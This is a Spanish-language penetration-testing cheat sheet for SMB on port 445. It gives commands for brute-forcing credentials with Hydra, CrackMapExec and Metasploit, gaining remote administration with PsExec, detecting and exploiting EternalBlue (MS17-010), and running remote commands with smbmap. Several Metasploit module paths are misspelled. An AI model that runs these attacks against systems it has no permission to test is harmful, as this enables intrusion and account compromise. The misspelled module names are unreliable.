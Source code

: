 # 445 - SMB

## Fuerza Bruta

### Hydra

Para poder hacer fuerza bruta con hydra al servicio SMB, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente:

```bash
hydra -l user -P passwords.txt smb://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio SMB no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```
hydra -l user -P passwords.txt SMB://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```bash
hydra -L users.txt -p Password123 smb://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minúscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasándole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```bash
hydra -L users.txt -P passwords.txt smb://127.0.0.1 -t 15
```

### Crackmapexec

Podemos usar esta herramienta para probar una serie de contraseñas en base a un usuario o viceversa sustituyendo la contraseña por la ruta de un diccionario. Por ejemplo:

```ruby
crackmapexec smb 192.168.1.10 -u usuario -p diccionario.txt
```

{% hint style="warning" %}
**ATENCIÓN!!** Puede que los resultados no sean reales y nos den falsos negativos, por lo que se recomienda revisar los resultados con smbmap (`smbmap -H 192.168.1.10 -u usuario -p contraseña1`)
{% endhint %}

### Metasploit

#### Fuerza Bruta

Podemos usar metasploit para hacer fuerza bruta para SMB, el modulo es "`auxiliary/scanner/smb/smb_login`"

* SMBUSser -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* SMBPass -> En el caso de que usemos una contraseña concreta
* RHOSTS -> IP de la máquina victima
* VERBOSE -> Desactivar

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

#### PSexec

Existe otro módulo llamado psexec (`exploit/windows/smb/psexec`) cuyo objetivo es adquirir administración remota de la maquina

* RHOSTS -> IP de la máquina victima
* SMBUSser -> En el caso de que usemos un usuario concreto
* SMBPass -> En el caso de que usemos una contraseña concreta

## EthernalBlue (MS17-010)

{% hint style="info" %}
EternalBlue es una vulnerabilidad en el protocolo Server Message Block (SMB) de Microsoft, identificada como MS17-010. Esta vulnerabilidad permite a un atacante ejecutar código remoto en sistemas Windows sin necesidad de autenticación.

Los siguientes S.O. fueron afectados:

* **Windows Vista**
* **Windows 7**
* **Windows 8**
* **Windows 8.1**
* **Windows 10**
* **Windows Server 2008**
* **Windows Server 2008 R2**
* **Windows Server 2012**
* **Windows Server 2012 R2**
* **Windows Server 2016**
{% endhint %}

### Detección

#### Nmap

Para comprobar si el host es vulnerable, usaremos el siguiente script de nmap:

```bash
nmap -sV -p 445 --script=smb-vuln-ms17-010 192.168.1.1
```

#### Metasploit

También podemos optar por el modulo de metasploit:

```bash
/auxliary/scanner/smb/smb_ms10_010
```

### Explotación

#### GitHub Tool

Para explotar la vulnerabilidad, usaremos la siguiente herramienta:

{% @github-files/github-code-block url="https://github.com/3ndG4me/AutoBlue-MS17-010" %}

#### Metasploit

O el siguiente modulo de metasploit:

```bash
/exploit/windows/smb/ms17_010_ethernalblue
```

## RCE

Podemos ejecutar comandos con un usuario y contraseña de SMB usando [SmbMap](../../reconocimiento/protocolos-servicios/445-smb.md#smbmap) y el siguiente comando:

```bash
smbmap -u usuario -p password -H 192.168.1.1 -x 'comando'
```
